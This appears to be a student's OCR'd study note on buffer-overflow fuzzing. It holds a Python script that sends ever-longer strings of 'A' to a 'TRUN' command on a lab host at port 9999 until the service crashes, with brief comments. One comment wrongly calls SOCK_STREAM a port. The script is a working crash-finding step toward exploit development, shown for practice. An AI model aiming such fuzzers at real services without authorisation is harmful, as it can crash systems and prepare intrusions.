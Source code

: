 Fuzzing

Wednesday, June 21, 2023

8:02 PM

 

#!/usr/bin/python

import sys, socket

from time import sleep

buffer = \"A\" \* 100

while True:

try:

payload = \"TRUN /.:/\" + buffer

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((\'192.168.1.35\',9999))

print (\"\[+\] Sending the payload\...\\n\" + str(len(buffer)))

s.send((payload.encode()))

s.close()

sleep(1)

buffer = buffer + \"A\"\*100

except:

print (\"The fuzzing crashed at %s bytes\" % str(len(buffer)))

sys.exit()

 

 

 

 

Sends the A\'s in 100 a blocks to determine the crash point.

 

 

Socket.AF_INET is ipv4 addr, socket.SOCK_STREAM is port

